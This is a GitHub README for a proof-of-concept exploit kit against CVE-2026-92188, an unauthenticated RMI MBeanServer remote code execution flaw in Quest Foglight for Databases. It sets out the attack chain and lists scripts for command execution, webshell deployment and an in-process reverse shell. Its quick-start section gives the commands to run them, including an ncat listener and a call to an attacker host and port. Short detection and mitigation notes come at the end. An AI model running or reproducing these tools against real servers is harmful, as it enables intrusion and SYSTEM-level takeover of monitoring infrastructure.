

# CVE-2026-92188 — Quest Foglight for Databases

**Unauthenticated federated `MBeanServer` → RCE.**

| | |
|---|---|
| CVSS | **9.8 Critical** |
| CWE | CWE-306 (Missing Authentication) |
| Affected | Foglight for Databases **8.2.0** |
| Fixed | Foglight **8.3** |
| Advisory | ZDI-26-854 / ZDI-CAN-29168 |
| Lab repro | 8.3.0.2 with `server.federation.ssl = false` |

## TL;DR

Foglight's federation client exports a `MBeanServerConnection` over Spring RMI
**without application-level authentication**. In 8.3.0.2 it is exposed when
`server.federation.ssl = false`; the default (`ssl=true`, no keystore) does not
export it, and with a keystore it requires mTLS.

An attacker who can reach the exported service can invoke
`com.quest.nitro.action:type=action,name=CommandAction` and execute commands as
the FMS service account — `LocalSystem`/SYSTEM on Windows, the FMS user on Linux.

> The CVE is the missing authentication in the exported MBeanServer.
> `server.federation.ssl=false` is the **8.3 reproduction condition**, not
> necessarily the exact 8.2 trigger. The 8.2 code path is not asserted here.

## Status

Tested on **Foglight 8.3.0.2** (Linux and Windows) with
`server.federation.ssl = false`.

**Not tested** on 8.2.0/8.2.0.1. The RMI/MBean chain is expected to apply, but
client-jar serialization compatibility is unverified. Treat 8.2 support as
experimental. See [STATUS.md](STATUS.md).



## Chain

1. `1099/tcp` RMI registry → `lookup("MBeanServerConnection")`
2. `4444/tcp` JRMP → Spring RMI invocation
3. `MBeanServerProxy extends ForgeMBeanServerSupport` — no auth
4. `CommandAction.invoke(Map)` → `ProcessRunner.exec`
5. RCE → reverse shell / in-process webshell

## Repository layout

| Path | Description |
|---|---|
| `foglight_cve_scanner.py` | Async scanner (read-only) |
| `foglight_rce.py` | RMI → `CommandAction` RCE |
| `exploit_webshell_8081.py` | In-process Groovy webshell on 8081 |
| `exploit_revshell_inprocess.py` | In-process Groovy reverse shell |
| `deploy_webshell.py` | JSP webshell (Linux; SentinelOne blocks it on Windows) |
| `FoglightProbe.java` | Read-only `MBeanServerConnection` probe |
| `FoglightRCE.java` | `CommandAction` payload |
| `FoglightScript.java` | `Scripting` MBean client |
| `ws.jsp`, `fgl.cfg`, `rev.cfg` | Payload samples |
| `libs/README.md` | Required jars (not included) |
| `docs/` | Short writeups |

## Quick start

### 1. Jars

Copy from a Foglight installation:

```bash
FOGLIGHT=/path/to/Foglight
cp $FOGLIGHT/server/core/foglight.jar \
   $FOGLIGHT/server/core/spring-*.jar \
   $FOGLIGHT/server/core/commons-*.jar libs/
cp $FOGLIGHT/lib/quest-common.jar libs/
```

The Quest jars are proprietary and are **not** distributed here.

### 2. Build

```bash
./build.sh
```

### 3. Scan

```bash
python3 foglight_cve_scanner.py --targets 192.0.2.0/24
```

### 4. RCE

```bash
python3 foglight_rce.py <TARGET> --cmd "whoami"
```

### 5. In-process webshell (8081)

```bash
python3 exploit_webshell_8081.py --target <TARGET>
curl 'http://<TARGET>:8081/?c=whoami'
```

### 6. In-process reverse shell

```bash
ncat -lvnp 7878
python3 exploit_revshell_inprocess.py --target <TARGET> \
  --lhost <LHOST> --lport 7878
```

## Reproduction config (8.3.0.2)

```properties
server.federation.ssl = false
server.vm.option0 = "-Djava.rmi.server.hostname=<TARGET>"
```

Open `1099/tcp` and `4444/tcp`; for the webshell also `8081/tcp`.

## Detection / mitigation

- Upgrade to **8.3+** and keep `server.federation.ssl = true` with a keystore.
- Never expose `1099/4444` outside the management network.
- Foglight logs a warning when SSL is disabled:
  `Federation SSL is disabled... unauthenticated plaintext connections`.
- Scanner: `foglight_cve_scanner.py`.
- IOCs: `MBeanServerConnection`, `CommandAction`, `8081` owned by `fms.exe`.

## Docs

- [Root cause](docs/01-root-cause.md)
- [Exploitation](docs/02-exploitation.md)
- [Scanner](docs/03-scanner.md)
- [Detection](docs/04-detection.md)
- [Lab setup](docs/05-lab.md)

## Disclaimer

For authorized security labs only. Do not use against systems without written
permission. Foglight is a trademark of Quest Software; this project is not
affiliated with Quest. No vendor binaries are distributed. See [LEGAL.md](LEGAL.md)
for third-party binaries and licensing.

## References

- https://nvd.nist.gov/vuln/detail/CVE-2026-92188
- https://www.zerodayinitiative.com/advisories/ZDI-26-854/
- https://github.com/advisories/ghsa-vwq7-jm7x-pmjc
